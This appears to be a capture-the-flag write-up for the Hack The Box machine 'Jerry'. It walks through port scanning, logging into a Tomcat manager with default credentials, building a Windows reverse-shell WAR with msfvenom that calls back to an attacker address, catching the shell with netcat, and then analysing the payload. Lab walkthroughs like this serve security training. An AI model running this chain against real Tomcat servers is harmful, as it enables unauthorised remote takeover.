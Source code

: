 Here’s a clean, organized walkthrough for **HTB: Jerry**, formatted by phase, including all commands and logic used along the way:

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 10.10.10.95
```
- Only port **8080** is open.

### 🔍 Version Detection
```bash
nmap -sV -sC -p 8080 -oA nmap/initial 10.10.10.95
```
- Port 8080 runs [Tomcat](HTTP): `Apache Tomcat/Coyote JSP engine 1.1`.

---

## 🌐 [Web Discovery](HTTP)

### 🔑 Tomcat Manager Login
- Navigate to `http://10.10.10.95:8080`
- Default credentials work:
  ```text
  Username: tomcat
  Password: s3cret
  ```

- This provides access to the **Tomcat Manager Application**, including a WAR deployment section.

---

## 💣 Exploitation via WAR Upload

### ⚙️ Create Malicious WAR Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.XX LPORT=9002 -f war > rev_shell.war
```

### 🧪 Discover JSP Payload Name
```bash
jar -tf rev_shell.war
# Output includes: ppaejmsg.jsp
```

### 🛜 Serve WAR File
Upload via Tomcat Manager at:  
➡️ `http://10.10.10.95:8080/manager/html`

### 📡 Trigger Reverse Shell
On attacker:
```bash
nc -lnvp 9002
```

On target:
```bash
curl http://10.10.10.95:8080/rev_shell/ppaejmsg.jsp
```

Shell received:
```bash
whoami
# nt authority\system
```

---

## 🏁 Flags

```bash
cd C:\Users\Administrator\Desktop\flags
type 2\ for\ the\ price\ of\ 1.txt
```

**🎯 Output:**
```
user.txt: 7004dbce...
root.txt: 04a8b36e...
```

---

## 🔍 Beyond Root – War File Analysis

### 📦 WAR = ZIP
```bash
unzip -l rev_shell.war
```

### 🧾 Key Contents:
- `WEB-INF/web.xml`: servlet definition
- `ppaejmsg.jsp`: main reverse shell payload

### 🧠 JSP Breakdown:
- Hex-encoded executable written to disk
- Executed via `Runtime.getRuntime().exec()`
- On Linux: chmod +x before execution
- On Windows: just run `.exe`

### 🔄 Reverse Engineering the Binary
```bash
cat hex | xxd -r -p > rev_shell.exe
```

### 🧪 Test via Wine + tcpdump
```bash
wine rev_shell.exe
tcpdump -i any port 9002
```

Confirmed reverse shell behavior with **exponential backoff retry pattern**.

---

## ✅ Summary

| Phase               | Achievement                              |
|--------------------|-------------------------------------------|
| Recon              | Found Tomcat on port 8080                 |
| Exploit            | Gained SYSTEM shell via WAR upload        |
| User Flag          | Retrieved from Administrator desktop      |
| Root Flag          | Included in same text file as user        |
| Analysis           | Decompiled and verified WAR structure     |
